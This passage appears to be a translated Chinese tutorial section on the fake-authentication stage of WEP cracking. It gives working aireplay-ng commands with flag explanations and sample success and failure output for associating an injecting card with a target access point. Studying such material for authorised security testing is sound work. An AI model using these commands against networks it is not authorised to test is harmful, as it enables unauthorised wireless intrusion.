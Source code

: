 # 第四阶段 - 执行伪身份验证

我们使这个过程工作的下一步是与接入点进行身份验证。这很重要，因为如果我们在没有关联并且接入点存在的情况下执行数据包注入，该过程将失败并且连接将被拒绝。事实上，如果被注入的源 MAC 地址没有关联，目标 API 将忽略数据包并发送一个明文的去认证数据包来拒绝连接尝试。当这种情况发生时，因为 AP 正在忽略所有被注入的数据包，不会创建新的 IVs。

你用于注入的 MAC 必须通过伪身份验证或使用已关联客户端的 MAC 与 AP 关联。

为了将客户端与接入点关联，我们将使用伪身份验证：

```
aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

+   `-1`表示伪身份验证

+   `0`重新关联时间（秒）

+   -e ganon 是无线网络名称

+   `-a 00:14:6C:7E:40:80`是接入点 MAC 地址

+   `-h 00:0F:B5:88:AC:82`是我们的卡 MAC 地址

成功看起来像：

```
18:18:20  Sending Authentication Request 
18:18:20  Authentication successful 
18:18:20  Sending Association Request 
18:18:20  Association successful :-) 
```

或者对于挑剔的接入点的另一个变化：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

+   `6000`：每`6000`秒重新认证一次。长时间间隔也会导致保持活动数据包被发送。

+   `-o 1`：一次只发送一组数据包。默认是多个，这会让一些 APs 感到困惑。

+   `-q 10`：每`10`秒发送一次活动数据包。

成功看起来像：

```
18:22:32  Sending Authentication Request 
18:22:32  Authentication successful 
18:22:32  Sending Association Request 
18:22:32  Association successful :-) 
18:22:42  Sending keep-alive packet 
18:22:52  Sending keep-alive packet 
# and so on. 
```

然而，如果身份验证失败，将会得到以下结果：

```
18:28:02  Sending Authentication Request 
18:28:02  Authentication successful 
18:28:02  Sending Association Request 
18:28:02  Association successful :-) 
18:28:02  Got a deauthentication packet! 
18:28:05  Sending Authentication Request 
18:28:05  Authentication successful 
18:28:05  Sending Association Request 
18:28:10  Sending Authentication Request 
18:28:10  Authentication successful 
18:28:10  Sending Association Request 
```
